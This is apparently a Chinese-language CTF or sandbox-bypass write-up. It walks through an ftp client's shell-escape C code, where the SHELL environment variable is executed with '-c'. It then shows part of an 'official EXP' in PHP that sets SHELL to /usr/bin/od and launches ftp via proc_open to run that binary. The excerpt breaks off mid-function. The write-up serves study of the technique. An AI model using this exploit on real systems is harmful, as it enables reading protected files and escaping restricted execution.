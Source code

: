 ```c
            namep = theshell;
        else 
            namep++;
        (void) snprintf(shellnam, sizeof(shellnam), "-%s", namep);
        if (strcmp(namep, "sh") != 0)
            shellnam[0] = '+';
        if (debug) {
            printf("%s\n", theshell);
            (void) fflush (stdout);
        }
        if (arg) {
            execl(theshell, shellnam, "-c", arg, NULL);
        }
        else {
            execl(theshell, shellnam, NULL);
        }
        perror(theshell);
        code = -1;
        exit(1);
    }
    if (pid > 0) while (wait(NULL) != pid);

    (void) signal(SIGINT, old1);
    (void) signal(SIGQUIT, old2);
    if (pid == -1) {
        perror("Try again later");
        code = -1;
    }
    else {
        code = 0;
    }
}
```
主要代码
:::tips
//从环境变量中取SHELL赋给thshell变量<br />theshell = getenv("SHELL");<br />......<br />if (arg) {<br />execl(theshell, shellnam, "-c", arg, NULL);<br />//也是因为这里的-c，才选择的od命令<br />}<br />else {<br />execl(theshell, shellnam, NULL);<br />}<br />//execl()用来执行参数path字符串所代表的文件路径<br />这里SHELL变量用可执行文件的绝对路径<br />最终执行的是theshell -c xxxx命令
:::
官方的EXP
```php
putenv("SHELL=/usr/bin/od");
$descriptorspec = array(
  0 => array("pipe", "r"), // 标准输入，子进程从此管道中读取数据
  1 => array("pipe", "w"), // 标准输出，子进程向此管道中写入数据
  2 => array("pipe", "r")
);

$file=array();

$process = proc_open("ftp", $descriptorspec, $file);

var_dump($process);
var_dump($file);

function readln($file){
  $out = "";
  $a = fread($file, 1);
  echo "readln";
  while ($a != "\n") {
    $out = $out.$a;
    $a = fread($file, 1);
```